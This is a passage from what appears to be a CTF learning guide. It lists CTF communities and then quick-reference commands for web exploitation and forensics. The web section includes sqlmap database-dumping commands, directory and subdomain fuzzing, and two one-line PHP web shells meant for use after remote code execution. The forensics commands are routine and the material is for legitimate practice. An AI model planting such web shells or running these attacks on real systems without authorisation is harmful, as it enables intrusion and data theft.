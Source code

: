 ```

### 💬 Communities

```
💭 CTF Discord Servers
💭 r/securityCTF (Reddit)
💭 Stack Exchange - Security
💭 Indonesian: Telegram CTF Indonesia Groups
```

---

## 🚀 Quick Reference Commands

### Web Exploitation Quick Commands

```bash
# SQL Injection
sqlmap -u "URL" --batch --dbs
sqlmap -u "URL" --forms --batch
sqlmap -r request.txt --dump

# Directory Fuzzing
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt
ffuf -u http://target.com/FUZZ -w wordlist.txt

# Subdomain Enumeration
gobuster dns -d target.com -w /usr/share/wordlists/subdomains.txt

# Nikto Scan
nikto -h http://target.com

# Web Shells (if RCE found)
<?php system($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```

### Forensics Quick Commands

```bash
# Image Analysis
strings image.jpg | grep -i flag
exiftool image.jpg
binwalk -e image.jpg
steghide extract -sf image.jpg
zsteg image.png -a

# PCAP Analysis
wireshark capture.pcap
tshark -r capture.pcap -Y "http"
tcpflow -r capture.pcap

# Memory Forensics
volatility3 -f memory.dmp windows.info
volatility3 -f memory.dmp windows.pslist
volatility3 -f memory.dmp windows.filescan | grep flag

# File Carving
foremost -i disk.img -o output/
binwalk -e firmware.bin
```
